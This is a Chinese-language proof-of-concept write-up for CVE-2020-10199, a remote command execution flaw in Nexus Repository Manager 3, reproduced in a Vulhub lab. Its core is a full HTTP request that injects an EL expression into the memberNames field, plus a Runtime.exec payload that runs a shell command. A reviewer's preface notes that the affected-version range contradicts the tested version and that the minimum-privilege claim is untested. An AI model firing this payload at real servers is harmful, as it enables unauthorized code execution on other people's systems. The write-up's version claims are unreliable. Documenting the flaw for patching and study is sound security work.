




## 核对与使用边界


本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：&lt;3.21.1却实验3.21.1、简介及旧条目&lt;=；需普通账户的具体后端验证先后次序确认

代码与实验材料：go/group memberNames算术与命令载荷，登录使用管理员不能验证最低普通用户权限

来源证据范围：官方Sonatype、固定研究commit、原工具，较好

- **结论使用边界（1）**：影响上界自相矛盾；依据：实验3.21.1被&lt;3.21.1排除。此项限制直接适用于下文对应结论；现有正文不足以作更宽泛推论，所列方法和原始证据均保留。

- **适用与权限边界（2）**：最低权限结论缺对照；依据：只admin:admin实验，普通账号可触发需验证控制流程；getMethods()\[6\]不稳定。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

- **凭据与会话边界（3）**：状态及凭据风险；依据：仓库创建接口需说明校验失败是否留下对象。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Nexus Repository Manager 3 group 远程命令执行漏洞 CVE-2020-10199

## 漏洞描述

Nexus Repository Manager 3 是一款软件仓库，可以用来存储和分发Maven、NuGET等软件源仓库。其3.21.1及之前版本中，存在一处任意EL表达式注入漏洞。

参考链接：

- https://support.sonatype.com/hc/en-us/articles/360044882533-CVE-2020-10199-Nexus-Repository-Manager-3-Remote-Code-Execution-2020-03-31
- https://github.com/threedr3am/learnjavabug/blob/93d57c4283/nexus/CVE-2020-10199/README.md
- https://github.com/jas502n/CVE-2020-10199

## 漏洞影响

```
Nexus < 3.21.1
```

## 网络测绘

```
app="Nexus-Repository-Manager"
```

## 环境搭建

Vulhub执行如下命令启动Nexus Repository Manager 3.21.1：

```
docker-compose up -d
```

等待一段时间环境才能成功启动，访问`http://your-ip:8081`即可看到Web页面。

该漏洞需要至少普通用户身份，所以我们需要使用账号密码`admin:admin`登录后台。



## 漏洞复现

登录后，复制当前Cookie和CSRF Token，发送如下数据包，即可执行EL表达式：

```
POST /service/rest/beta/repositories/go/group HTTP/1.1
Host: your-vps-ip:8081
X-Requested-With: XMLHttpRequest
X-Nexus-UI: true
NX-ANTI-CSRF-TOKEN: 0.9514072635504696
Content-Type: application/json
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.102 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Origin: http://your-vps-ip:8081
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Referer: http://your-vps-ip:8081
Cookie: NX-ANTI-CSRF-TOKEN=0.9514072635504696; NXSESSIONID=d7f44169-393b-446a-815d-0eff3acf5a71
Connection: close
Content-Length: 203

{
  "name": "internal",
  "online": true,
  "storage": {
    "blobStoreName": "default",
    "strictContentTypeValidation": true
  },
  "group": {
    "memberNames": ["$\\A{233*233*233}"]
  }
}
```



发送数据包后，如果提示Anti cross-site request forgery token mismatch，需要在Headers中加入：

 ```
 NX-ANTI-CSRF-TOKEN: <your-csrf-token>
 ```

参考https://github.com/jas502n/CVE-2020-10199，使用表达式`$\\A{''.getClass().forName('java.lang.Runtime').getMethods()[6].invoke(null).exec('touch /tmp/awesome_poc')}`即可成功执行任意命令。



命令`touch /tmp/awesome_poc`执行成功：




---

> 来源：Threekiii/Awesome-POC
